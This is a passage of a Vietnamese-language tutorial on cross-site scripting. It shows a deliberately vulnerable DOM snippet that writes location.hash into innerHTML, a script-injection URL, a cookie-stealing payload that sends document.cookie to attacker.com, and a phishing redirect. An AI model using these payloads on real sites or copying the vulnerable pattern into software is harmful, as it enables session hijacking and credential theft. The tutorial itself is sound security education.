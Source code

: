 **Cách thức hoạt động**
1. Kẻ tấn công chèn mã độc vào một phần tử trên trang web mà dữ liệu được xử lý trực tiếp trong DOM (ví dụ: thông qua URL hoặc đầu vào người dùng).
2. Trình duyệt của người dùng xử lý dữ liệu này và thực thi mã độc.
3. Mã độc có thể thay đổi nội dung trang hoặc thực hiện các hành động khác trên trình duyệt của người dùng.

Giả sử một trang web có đoạn mã JavaScript sau đây để hiển thị tên người dùng:
```html
<div id="user">Hello, <span id="username"></span></div>
<script>
  var username = location.hash.substring(1);
  document.getElementById('username').innerHTML = username;
</script>
```
Nếu người dùng truy cập vào URL:
```html
http://example.com/#<script>alert('Bạn đã bị tấn công!');</script>
```
Mã JavaScript sẽ thay đổi nội dung của phần tử `username` và thực thi đoạn mã độc, dẫn đến việc hiển thị thông báo cảnh báo.

<a name="applications-of-xss-crosssite-scripting"></a>
## IV. Những Ứng Dụng Của XSS (Cross-Site Scripting)

Cross-Site Scripting (XSS) là một lỗ hổng bảo mật nguy hiểm có thể được kẻ tấn công lợi dụng để thực hiện nhiều hành động độc hại khác nhau. Đây là một số ví dụ về những gì XSS có thể được sử dụng:

<a name="steal-cookies-and-session-information"></a>
### 1. Đánh cắp Cookie và Thông tin Phiên

Một trong những mục đích phổ biến nhất của tấn công XSS là đánh cắp cookie của người dùng. Cookie thường chứa thông tin phiên đăng nhập và các thông tin nhạy cảm khác. Kẻ tấn công có thể sử dụng mã JavaScript để gửi cookie của người dùng tới máy chủ của họ, từ đó sử dụng cookie này để giả mạo danh tính và truy cập tài khoản của người dùng trên trang web bị tấn công.

**Ví dụ:**
```javascript
<script>
var img = new Image();
img.src = "http://attacker.com/steal-cookie?cookie=" + document.cookie;
</script>
```
Đoạn mã này sẽ gửi cookie của người dùng tới máy chủ của kẻ tấn công.

<a name="phishing-attacks-and-malicious-redirects"></a>
### 2. Tấn công Phishing và Chuyển Hướng Độc Hại

XSS có thể được sử dụng để thực hiện các cuộc tấn công phishing bằng cách thay đổi giao diện của trang web hoặc chuyển hướng người dùng đến một trang web giả mạo để đánh cắp thông tin đăng nhập và các dữ liệu cá nhân khác.

**Ví dụ:**
```javascript
<script>
window.location = "http://phishing-site.com";
</script>
```
Đoạn mã này sẽ chuyển hướng người dùng đến một trang web giả mạo.
